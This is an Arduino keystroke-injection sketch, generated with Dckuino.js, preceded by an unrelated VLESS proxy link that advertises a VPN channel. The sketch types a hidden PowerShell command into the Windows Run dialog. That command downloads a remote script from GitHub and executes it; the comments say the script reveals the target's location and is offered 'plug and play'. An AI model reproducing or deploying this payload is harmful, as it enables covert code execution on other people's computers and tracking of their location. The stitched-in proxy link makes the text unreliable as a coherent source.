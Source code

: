 vless://9ff3ee30-20f3-4673-95a2-66642c3d5cd2@germany.vserver2.sbs:30816?mode=gun&security=reality&encryption=none&pbk=3NGlwMSxYFI39ys3H_zipp973o5QqTAtjArf0guTN0M&fp=chrome&spx=%2F&type=grpc&serviceName=&sni=ghbi.ir&sid=44b138f6#%D8%AE%D8%B1%DB%8C%D8%AF+%DA%A9%D8%A7%D9%86%D9%81%DB%8C%DA%AF+%40pyschovpn
/*
 * Generated with <3 by Dckuino.js, an open source project !
 */

#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Begining the Keyboard stream
  Keyboard.begin();

  // Wait 500ms
  delay(500);

  //     Title: Rage-PopUps
  //     Author: I am reza
  //     Description: This payload is meant to open a map in your targets web browser with their current location
  //     Target: Windows 10, 11
  //     --------------------------------------------------------------------------------------
  //     THIS PAYLOAD IS PLUG AND PLAY. NO MODIFICATIONS NEEDED SIMPLY RUN THE CODE DOWN BELOW.
  //     --------------------------------------------------------------------------------------
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(500);

  Keyboard.print("powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/I-Am-Jakoby/hak5-submissions/main/OMG/Payloads/OMG-We-Found-You/found-you.ps1?dl=1; invoke-expression $pl");

  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
